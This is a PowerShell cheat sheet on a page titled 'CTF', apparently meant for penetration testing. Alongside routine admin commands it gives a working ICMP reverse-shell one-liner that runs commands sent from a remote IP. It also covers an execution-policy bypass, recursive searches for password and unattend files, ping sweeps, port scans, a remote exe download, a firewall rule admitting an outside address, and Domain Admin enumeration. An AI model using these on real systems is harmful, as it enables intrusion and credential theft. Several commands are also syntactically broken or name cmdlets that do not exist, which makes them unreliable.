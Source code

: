 ```yaml
---
layout: page
title: CTF
permalink: /ctf/
---
```


PowerShell

Start a session without a profile and bypassing no execution

`powershell.exe -nop -exec bypass`


Get a directory listing (ls, dir, gci):

`PS C:\> Get-ChildItem`


Copy a file (cp, copy, cpi):

`PS C:\> Copy-Item src dst`


Find text within a file:

`PS C:\> Select-String -path c:\users\*.txt -pattern password`


`PS C:\> ls -r c:\users -file | %{Select-String -path $_ -pattern password}`


Display file contents (cat, type, gc):

`PS c:\> Get-Content file.txt`


Get current directory (pwd, gl):

`PS C:\> Get-Location`

Get a process listing (ps, gps):

`PS c:\> Get-Process`

Get a service listing:

`PS C:\> Get-Service`

Formatting output of a command (Format-List, fl):

`PS c:\> ls | Format-List -property name`

Paginating output:

`PS C:\> ls -r | Out-Host -paging`

Get SHA1 hash of a file:

`PS C:\> Get-FileHash -Algorithm SHA1 file`

Export output to CSV:

`PS C:\> GetProcess | Export-Csv procs.csv`

Conduct a ping sweep:

`PS C:\> 1..255 | % (echo "10.10.10.$_"; ping -n 1 -w 100 10.10.10.$_ | Select-String ttl}`

```
powershell -nop -c "$ip='your_ip'; $ic = New-Object System.Net.NetworkInformation.Ping; $po = New-Object System.Net.NetworkInformation.PingOptions; $po.DontFragment = $true; $ic.Send($ip,60*1000, ([text.encoding]::ASCII).GetBytes('OK'), $po); while ($true) { $ry = $ic.Send($ip,60*1000, ([text.encoding]::ASCII).GetBytes(''), $po); if ($ry.Buffer) { $rs = ([text.encoding]::ASCII).GetString($ry.Buffer); $rt = (Invoke-Expression -Command $rs | Out-String ); $ic.Send($ip,60*1000,([text.encoding]::ASCII).GetBytes($rt),$po); } }"
```

Conduct a port scan:

`PS c:\> 1..1024 | % {echo ((new-object Net.sockets.TcpClient).Connect ("10.10.10.10",$_)) "Port is open!"} 2>$null`

Fetch a file via HTTP:

`PS C:\> (New-Object System.Net.WebClient).DownloadFile("http://10.10.10.10/file.exe", "file.exe")`

`PS C:\> Invoke-WebRequest -Outfile C:\place\to\put http://IP/filetoget`

Find files with a specific name:

`PS C:\> Get-ChildItem "C:\Users\" -recurse -include *passwords*.txt`

`PS C:\> Get-Childitem –Path C:\ -Include *unattend*,*sysprep* -File -Recurse -ErrorAction SilentlyContinue | where {($_.Name -like "*.xml" -or $_.Name -like "*.txt" -or $_.Name -like "*.ini")}`

`PS C:\> Get-Childitem –Path C:\inetpub\ -Include web.config -File -Recurse -ErrorAction SilentlyContinue`

`PS C:\> Get-Childitem –Path C:\Users\ -Include *password*,*vnc*,*.config -File -Recurse -ErrorAction SilentlyContinue`

`PS C:\> Get-ChildItem C:\* -include *.xml,*.ini,*.txt,*.config -Recurse -ErrorAction SilentlyContinue | Select-String -Pattern "password"`


Get a listing of all installed Microsoft Hotfixes:

`PS C:\> Get-Hotfix`


Navigate the Windows Registry:

`PS C:\> cd HKLM:\`

`PS HKLM:\> ls`


List programs that start automatically in the registry:

`PS C:\> Get-ItemProperty HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\run`

Convert String from ascii to Base64:

`PS C:\> [System.Convert]::ToBase64String([System.Text.Encoding]::UTF8GetBytes("PS Encode me!""))`

NETWORKING

`PS C:\> Get-NetIPConfiguration | ft InterfaceAlias,InterfaceDescription,IPv4Address`

`PS C:\> Get-DnsClientServerAddress -AddressFamily IPv4 | ft`

`PS C:\> Get-NetRoute -AddressFamily IPv4 | ft DestinationPrefix,NextHop,RouteMetric,ifIndex`

`PS C:\> Get-NetNeighbor -AddressFamily IPv4 | ft ifIndex,IPAddress,LinkLayerAddress,State`

`PS C:\> Get-ChildItem -path HKLM:\SYSTEM\CurrentControlSet\Services\SNMP -Recurse`


List and modify the windows firewall rules:

`PS C:\> Get-NewFirewallRule -all`

`PS C:\> New-FirewallRule -Action Allow -DisplayName ItsaMe -RemoteAddress 10.10.10.99`


INFO ON CMDLETS/MODULES

```
PS C:\> Get-Help <cmdlet>
PS C:\> Get-Help <cmdlet> -detailed
PS C:\> Get-Help <cmdlet> -examples
PS C:\> Get-Help <cmdlet> -full
PS C:\> Get-Command -Module modulename
```


Get-Command supports filtering. To filter cmdlets on the verb set:
```
PS C:\> Get-Command Set*
PS C:\> Get-Command –Verb Set

Or on the noun process:
PS C:\> Get-Command *Process
PS C:\> Get-Command –Noun process
```


Piping cmdlet output to another cmdlet:

`PS C:\> Get-Process | Format-List –property name`


ForEach-Object in the pipeline (alias %):

`PS C:\> ls *.txt | ForEach-Object {cat $_}`


Where-Object condition (alias where or ?):

`PS C:\> Get-Process | Where-Object {$_.name –eq "notepad"}`


Generating ranges of numbers and looping:

`PS C:\> 1..10`

`PS C:\> 1..10 | % {echo "Hello!"}`


Creating and listing variables:

`PS C:\> $tmol = 42`

`PS C:\> ls variable:`

Examples of passing cmdlet output down pipeline:

`PS C:\> dir | group extension | sort`

`PS C:\> Get-Service dhcp | Stop-Service -PassThru | Set-Service -StartupType Disabled`

ADDING MODULES TO SESSION

`PS C:\> Import-Module C:\Path\to\name.ps1`

INVOKE COMMAND -ICM

`PS C:\> Invoke-Command -ComputerName <name> -ScriptBlock {whoami}
$username = 'DOMAIN\USERNAME'; $password = 'PASSWORD'; $securePassword = ConvertTo-SecureString $password -AsPlainText -Force; $credential = New-Object System.Management.Automation.PSCredential $username,$securePassword; Invoke-Command -ComputerName BOX01 -Credential $credential -ScriptBlock {whoami};`

GET LANGUAGE MODE

`PS C:\> $ExecutionContext.SessionState.LanguageMode`

x86 or x64

`PS C:\> [IntPtr]::size`

ENVIRONMENT VARIABLES

`PS C:\> Get-ChildItem Env: | ft Key,Value`

`PS C:\> $env:UserName`

CONNECTED DRIVES

`PS C:\> Get-PSDrive | where {$_.Provider -like "Microsoft.PowerShell.Core\FileSystem"}| ft Name,Root`


LDAP

```
PS C:\> $username = 'lab.local\LDAP'; $password = 'PASSWORD'; $DomainControllerIpAddress = 'IP'; $LdapDn = 'DC=lab,DC=local'; $dn = New-Object System.DirectoryServices.DirectoryEntry("LDAP://$($DomainControllerIpAddress):389/$LdapDn", $username, $password); $ds = New-Object System.DirectoryServices.DirectorySearcher($dn); $ds.SearchRoot;
    $ds.Filter ="((objectCategory=computer))"; $ds.FindAll();
    $ds.Filter ="((objectCategory=user))"; $ds.FindAll();
    $ds.filter = "(&(objectCategory=user)(memberOf=CN=Domain Admins,CN=Users,DC=lab,dc=local))"; $ds.FindAll();
    $ds.Filter ="((name=Administrator))"; $ds.FindAll().properties;
    $ds.Filter ="((name=Bob*))"; $ds.FindAll().properties;
```


UAC
```powershell
$secpasswd = ConvertTo-SecureString "1234test" -AsPlainText -Force; $mycreds = New-Object System.Management.Automation.PSCredential ("Administrator", $secpasswd); $computer = "BOXNAME"; [System.Diagnostics.Process]::Start("C:\temp\file.bat",$mycreds.Username,$mycreds.Password,$computer)
```



